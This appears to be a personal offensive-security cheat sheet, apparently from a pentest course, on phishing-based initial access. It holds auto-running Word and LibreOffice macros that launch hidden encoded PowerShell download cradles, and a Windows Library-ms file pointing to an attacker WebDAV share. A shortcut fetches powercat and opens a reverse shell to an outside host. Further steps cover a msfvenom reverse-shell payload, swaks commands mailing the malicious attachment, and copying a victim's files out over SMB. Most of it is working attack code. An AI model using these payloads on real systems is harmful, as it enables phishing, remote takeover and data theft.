 # Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

- ``` stat {file} ``` see when the file access/modify/change etc

- ``` file {file} ```

# Useful splitter
- Splitter.py 
    ```
        s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoA7AA=="
        n = 50
        for i in range(0, len(s), n):
            chunk = s[i:i + n]
            print('Str = Str + "' + chunk + '"')
    ```

# Exploit Microsoft Office

## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use z: \\192.168.45.243\SHARE /user:kali kali
    Copy-Item -Path 20240728062407_BloodHound.zip -Destination z:\BloodHound.zip
    
    [folder]
    Copy-Item -Path c:\inetpub\wwwroot -Destination z:\files -Recurse

    [if cmd only --> zip file first then] 
    xcopy C:\inetpub.zip Z:\

    ```



- Macro example: 
    ``` 
        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            
            Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
                Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
                Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
            ...
                Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
                Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
                Str = Str + "A== "

            CreateObject("Wscript.Shell").Run Str
        End Sub
    ``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- create a folder for this
1. Prepare Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```
MUST USE non 80 port!!

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```
- sendemail
    ``` sendemail -f 'jonas@localhost' \
        -t 'mailadmin@localhost' \
        -s 192.168.244.140:25 \
        -u 'a spreadsheet' \
        -m 'Please check this spreadsheet' \
        -a exploit.ods 
    ```
- Test login ``` swaks -server {ip} --auth LOGIN --auth-user {user email} --auth-password {password} --quit-after AUTH ```

## Exploit Libre Office
1. Prepare payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f hta-psh -o evil.hta ```
2. Split the file
3. open new .ods file and add macro under the file
   ```
    Sub Macro 
    Dim Str as String
    Str = Str + "cmd /c powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
...
    Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
    Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
    Str = Str + "A== "
    Shell(Str)

   ```
4. Enable auto-run once this excel is open: Tools → Customize